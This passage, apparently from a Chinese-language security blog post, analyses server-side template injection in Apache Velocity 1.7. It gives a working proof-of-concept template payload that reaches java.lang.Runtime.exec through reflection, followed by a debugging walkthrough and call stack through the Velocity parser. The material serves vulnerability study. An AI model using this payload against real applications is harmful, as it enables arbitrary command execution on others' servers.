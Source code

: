             StringWriter out = new StringWriter();
            Velocity.evaluate(ctx, out, "test", templateString);
    
            return out.toString();
        }
    
    

poc

    #set($e="e")
    $e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")
    

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003432871-1223753347.png)

调试分析

首先将我们传入的poc拼接进去后，调用`Velocity.init();`,最终实际调用的是`RuntimeInstance#init`

会进行一系列的初始化操作，其中包括加载`/velocity-1.7.jar!/org/apache/velocity/runtime/defaults/velocity.properties`中的`runtime.log.logsystem.class`,实例化`org.apache.velocity.runtime.resource.ResourceManagerImpl`以及记录一些log

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003436708-1202875435.png)

之后实例化`VelocityContext`并将三个键值对 put了进去，调用`Velocity.evaluate()`来解析,跟进

发现是通过`RuntimeInstance#evaluate`中调用`parse`解析

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003451935-2062571130.png)

继续跟进`parser.parse(reader, templateName);`,首先在`this.velcharstream.ReInit(reader, 1, 1);`将在StringReader中的poc存储到`Parser.velcharstream`属性的`buffer`中

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003509778-1531226018.png)

之后会在process内循环遍历处理vlocity语法之后，大致解析成下面这个样子...

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003521097-1947976163.png)

进入`this.render(context, writer, logTag, nodeTree);`来解析渲染，主要是从AST树中和Context中，在`ASTSetDirective#render`将poc put进了context。这里涉及到几个类`ASTRference` `ASTMethod`,其中涉及到了ast的处理，感兴趣的师傅可以自己跟下看看

`ASTMethod#execute`中反射调用runtime

![](https://img2022.cnblogs.com/blog/1835657/202209/1835657-20220922003530263-1780739962.png)

调用栈如下：

    exec:347, Runtime (java.lang)
    invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
    invoke:62, NativeMethodAccessorImpl (sun.reflect)
    invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
    invoke:498, Method (java.lang.reflect)
    doInvoke:395, UberspectImpl$VelMethodImpl (org.apache.velocity.util.introspection)
    invoke:384, UberspectImpl$VelMethodImpl (org.apache.velocity.util.introspection)
    execute:173, ASTMethod (org.apache.velocity.runtime.parser.node)
    execute:280, ASTReference (org.apache.velocity.runtime.parser.node)
    render:369, ASTReference (org.apache.velocity.runtime.parser.node)
    render:342, SimpleNode (org.apache.velocity.runtime.parser.node)
    render:1378, RuntimeInstance (org.apache.velocity.runtime)
    evaluate:1314, RuntimeInstance (org.apache.velocity.runtime)
    evaluate:1265, RuntimeInstance (org.apache.velocity.runtime)
    evaluate:180, Velocity (org.apache.velocity.app)
    velocity1:64, HelloController (com.hellokoding.springboot)
    